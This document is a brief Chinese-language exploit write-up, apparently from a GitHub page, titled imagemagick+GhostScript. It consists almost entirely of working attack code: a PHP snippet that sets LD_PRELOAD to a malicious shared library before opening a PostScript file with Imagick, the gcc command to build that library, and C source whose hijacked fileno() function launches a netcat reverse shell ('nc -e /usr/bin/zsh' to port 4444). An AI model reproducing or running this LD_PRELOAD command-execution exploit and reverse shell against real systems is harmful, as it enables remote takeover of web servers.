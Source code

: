 ## **imagemagick+GhostScript**

**exp**

```php
<?php
putenv('LD_PRELOAD=/var/www/html/imag.so');
$img = new Imagick('/tmp/1.ps');
?>

```

其中 imag.c文件需要编译，命令如下

```bash
gcc -shared -fPIC imag.c -o imag.so

```

> imag.c代码

```bash
#include <stdlib.h>
#include <string.h>
void payload() {
  const char* cmd = "nc -e /usr/bin/zsh 127.0.0.1 4444";
  system(cmd);
}
int fileno() {
  if (getenv("LD_PRELOAD") == NULL) { return 0; }
  unsetenv("LD_PRELOAD");
    payload();
}

```

